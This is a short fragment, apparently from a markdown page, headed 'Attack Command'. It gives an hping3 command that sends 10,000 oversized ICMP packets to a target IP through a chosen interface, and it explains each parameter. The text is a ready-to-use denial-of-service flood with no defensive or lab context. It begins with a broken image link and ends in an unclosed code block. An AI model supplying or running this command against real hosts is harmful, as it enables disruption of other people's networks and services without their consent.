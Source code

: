 ## Attack Command
Send oversized ICMP packets using:

```bash
hping3 -d <payload_size> -c 10000 --icmp -I <interface> <target_ip>
Parameters:
-d <payload_size>: Size of the packet payload.
-c 10000: Number of packets to send.
--icmp: Sends ICMP packets.
-I <interface>: Network interface.
<target_ip>: Replace with the target's IP.
